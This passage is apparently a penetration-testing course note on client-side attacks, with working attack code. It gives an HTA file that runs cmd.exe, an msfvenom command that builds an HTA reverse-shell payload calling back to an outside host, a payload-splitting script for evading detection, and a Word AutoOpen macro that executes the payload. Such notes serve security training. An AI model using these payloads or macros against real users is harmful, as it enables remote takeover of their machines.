 # Module 13 (Clint Side Attacks)

<figure><img src="../.gitbook/assets/image (149).png" alt=""><figcaption></figcaption></figure>

### Know Your Target (Enum)

* **Passive Enumeration:**
  * Identify the victim's browser.
* **Active Enumeration:**
  * **Social Engineering:**
    * Craft messages or scenarios to manipulate users into revealing sensitive information or performing actions.

### Leveraging HTML Apps <a href="#leveraging-html-apps" id="leveraging-html-apps"></a>

* **Tool:** [**fingerprintjs2**](https://github.com/LukasDrgon/fingerprintjs2)
  * A JavaScript library to uniquely identify a browser based on its features.
* **HTA Attack:**
  * Create an HTA (HTML Application) to execute malicious scripts.
    *   Example HTA file (`file.hta`):



        ```html
        <!DOCTYPE html>
        <html>
        <head>
            <script>
            var x='cmd.exe'
            new ActiveXObject('WScript.shell').Run(x);
            </script>
        </head>
        <body>
            <script> self.close() </script> 
        </body>
        </html>
        ```
    *   Copy the HTA file to a web server:



        ```sh
        sudo cp file.hta /var/www/html/file2.hta
        ```
    *   Generate an HTA payload with msfvenom:



        ```bash
        sudo msfvenom -p windows/shell_reverse_tcp LHOST=192.168.114.134 LPORT=4444 -f hta-psh -o /var/www/html/evil.hta
        ```

<figure><img src="../.gitbook/assets/image (150).png" alt=""><figcaption></figcaption></figure>

### Exploiting Microsoft Office <a href="#exploiting-microsoft-office" id="exploiting-microsoft-office"></a>

* **Word Macro:**
  *   Split the payload to evade detection.



      ```
      str="" # payload from msfvenom
      n=50
      for i in range(0,len(str),n):
          print "str = Str +" + '"' + str[i:i+n] + '"'
      ```
  *   Add the split payload to a Word Macro (`document.docm`).

      Copy

      ```
      Sub AutoOpen()
          test1
      End Sub

      Sub Doc_Open()
          test1
      End Sub

      Sub test1()
          Dim Str As String
          ' Add the splitted payload here
          CreateObject("Wscript.shell").Run Str
      End Sub
      ```
* **Object Linking and Embedding (OLE):**
  * Create an evil batch file (`evil.bat`).
  * Create a link object in the Word document (`document.docm`).

**Resources:**

* [fingerprintjs2 GitHub Repository](https://github.com/LukasDrgon/fingerprintjs2)
* [Metasploit Framework (msfvenom)](https://www.metasploitunleashed.com/msfvenom/)
* [Microsoft VBA Programming](https://docs.microsoft.com/en-us/office/vba/api/overview/)

